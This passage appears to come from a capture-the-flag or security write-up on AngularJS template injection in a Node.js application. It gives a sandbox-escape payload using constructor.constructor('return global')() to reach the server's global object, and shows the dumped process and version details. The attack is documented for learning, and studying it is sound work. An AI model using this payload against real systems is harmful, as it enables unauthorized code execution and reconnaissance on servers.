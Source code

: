 ```json
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
	"console": {}
	}
```

Gives us a list of global environment variables. I have formatted it to make it more legible. 

Notice that the angular variables are missing though - we're going to have to append the `angular` property to `global` using the following, adding the json property for legibility:

```javascript
\{\{[constructor.constructor('return+global')().angular=this,constructor.constructor('return+global')()]+|+json}}
```

The first element `\{\{[constructor.constructor('return+global')()` will be evaluated first, so this adds an angular attribute to the global object. By calling Angular we should be able to get the angular object.

```json
"$SCOPE",
	{
	"angular": "$SCOPE",
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
```